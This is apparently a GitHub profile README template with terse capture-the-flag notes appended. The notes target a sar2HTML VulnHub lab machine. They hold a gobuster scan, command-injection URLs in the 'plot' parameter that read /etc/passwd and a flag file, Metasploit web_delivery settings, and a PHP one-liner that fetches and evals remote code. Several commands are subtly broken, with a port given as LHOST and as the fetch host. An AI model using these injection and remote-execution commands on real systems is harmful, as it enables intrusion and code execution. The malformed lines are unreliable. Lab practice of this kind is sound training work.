 - 👋 Hi, I’m @Sharvinleon
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Sharvinleon/Sharvinleon is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->https://drive.google.com/file/d/1Ds6vnRHAIvX3xSbM9M_1v1jjWekJgnRK/view?usp=drivesdk
https://drive.google.com/file/d/1pfe99sbOOA7NtDNe-s1VieMdNp9yFdLD/view?usp=drivesdk
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt-u http://(ip)
192.168.79.131/sar2HTML/index.php?plot=; cat /etc/passwd
192.168.79.131/sar2HTML/index.php?plot=; cat /home/love/Desktop/user.txt
https://russellmurad.medium.com/hacking-messaih-1-vulnhub-walkthrough-601147727dcc
https://resources.infosecinstitute.com/topics/capture-the-flag/victim-1-vulnhub-ctf-walkthrough/
https://drive.google.com/file/d/1Ds6vnRHAIvX3xSbM9M_1v1jjWekJgnRK/view?usp=drivesdk
Msfconsole
Use exploit/multi/script/web_delivery
Show targets
Set target 1
Set LHOST 192.168.79.131
Set LHOST 4444
192.168.79.131/sar2HTML/index.php?plot=;php -d allow_url_fopen=true -r "eval(file_get_contents('http://4444:8080/tknKjmIBixEa', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"